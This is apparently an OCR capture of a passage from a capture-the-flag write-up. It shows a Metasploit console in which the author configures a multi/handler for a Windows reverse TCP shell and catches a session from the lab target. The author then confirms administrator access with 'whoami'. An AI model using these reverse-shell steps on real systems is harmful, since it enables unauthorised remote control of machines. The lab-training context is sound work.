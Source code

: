 ```

           wake up, Neo...
        the matrix has you
        follow the white rabbit.

          knock, knock, Neo.

                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`

                             https://metasploit.com


       =[ metasploit v5.0.97-dev
       + -- --=[ 2043 exploits - 1105 auxiliary - 344 post       ]
       + -- --=[ 562 payloads - 45 encoders - 10 nops            ]
       + -- --=[ 7 evasion                                       ]

    Metasploit tip: Open an interactive Ruby terminal with irb

    msf5 > use multi/handler
    [*] Using configured payload generic/shell_reverse_tcp
    msf5 exploit(multi/handler) > set payload windows/shell/reverse_tcp
    payload => windows/shell/reverse_tcp
    msf5 exploit(multi/handler) > set lhost 10.10.14.5
    lhost => 10.10.14.5
    msf5 exploit(multi/handler) > set lport 8082
    lport => 8082
    msf5 exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.10.14.5:8082
    ^C[-] Exploit failed [user-interrupt]: Interrupt
    [-] run: Interrupted
    msf5 exploit(multi/handler) > set payload windows/shell_reverse_tcp
    payload => windows/shell_reverse_tcp
    msf5 exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.10.14.5:8082
    [*] Command shell session 1 opened (10.10.14.5:8082 -> 10.10.10.198:50263) at 2020-08-02 02:08:38 -0400


    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    whoami
    buff\administrator

And we are root!

## Notes
```